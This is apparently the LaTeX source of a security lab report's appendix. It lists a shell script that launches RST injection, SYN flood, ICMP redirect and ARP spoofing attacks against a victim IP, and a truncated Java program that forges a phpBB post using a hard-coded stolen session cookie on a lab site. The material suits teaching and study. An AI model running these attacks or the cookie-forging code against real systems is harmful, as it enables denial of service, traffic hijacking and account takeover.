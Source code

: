 \documentclass[12pt, a4paper]{article}
\begin{document}
\begin{appendices}
\begin{lstlisting}
;;
4)
echo 'sudo' $ATT $RST_TOOL '-d' $INT '-i' $VICTIM_IP
sudo $ATT $RST_TOOL -d $INT -i $VICTIM_IP
;;
3)
echo 'sudo' $ATT $SYN_TOOL '-i' $VICTIM_IP '-p' $PORT
echo 'SYN Flood on machine at address' $VICTIM_IP 'on port' $PORT
sudo $ATT $SYN_TOOL -i $VICTIM_IP -p $PORT
;;

2)
echo 'IMCP redirection attack:'
echo 'sudo' $ATT $ICMP_TOOL '-d' $INT '-g' $ATTACKER_IP '-c' 0 '-i' $VICTIM_IP
sudo $ATT $ICMP_TOOL -d $INT -g $ATTACKER_IP -c 5 -i $VICTIM_IP 
;;
1)
sudo $ATT $ARP_TOOL -d $INT -b $VICTIM_MAC -g $GATEWAY -h $VICTIM_MAC -i $ATTACKER_IP
;;
*)
echo "Unknown option"
esac

\end{lstlisting}

\section{Java application for forging message with cookie.\label{app:java}}

\lstset{
  captionpos=b,
  frame=single,
  language=Java,
  breaklines=true,
  caption="Java application for forging message with cookie.",
  label=parta:script4
}
\begin{lstlisting}
import java.io.*;
import java.net.*;
public class HTTPSimpleForge {

  public static void main(String[] args) throws IOException {

    try {
      int responseCode;
      InputStream responseIn=null;

      // URL to be forged.
      URL url = new URL ("http://www.xsslabphpbb.com/posting.php");
      
      // URLConnection instance is created to further parameterize a
      // resource request past what the state members of URL instance
      // can represent.
      URLConnection urlConn = url.openConnection();
      if (urlConn instanceof HttpURLConnection) {
        urlConn.setConnectTimeout(60000);
        urlConn.setReadTimeout(90000);
      }

      // addRequestProperty method is used to add HTTP Header Information.
      // Here we add User-Agent HTTP header to the forged HTTP packet.
      urlConn.addRequestProperty("User-agent","Sun JDK 1.6");
      urlConn.addRequestProperty("Content-Type", "application/x-www-form-urlencoded");
      
      // Stolen cookie from echoserv
      String stolenCookie = "phpbb2mysql_t%3Da%253A5%253A%257Bi%253A1%253Bi%253A1418225227%253Bi%253A2%253Bi%253A1418223204%253Bi%253A5%253Bi%253A1418223252%253Bi%253A6%253Bi%253A1418223310%253Bi%253A7%253Bi%253A1418225234%253B%257D%3B%20phpbb2mysql_data%3Da%253A2%253A%257Bs%253A11%253A%2522autologinid%2522%253Bs%253A0%253A%2522%2522%253Bs%253A6%253A%2522userid%2522%253Bs%253A1%253A%25224%2522%253B%257D%3B%20phpbb2mysql_sid%3D642b0037b1b4f81a4141e8fb505e50f6";


\end{lstlisting}
\end{appendices}
\end{document}
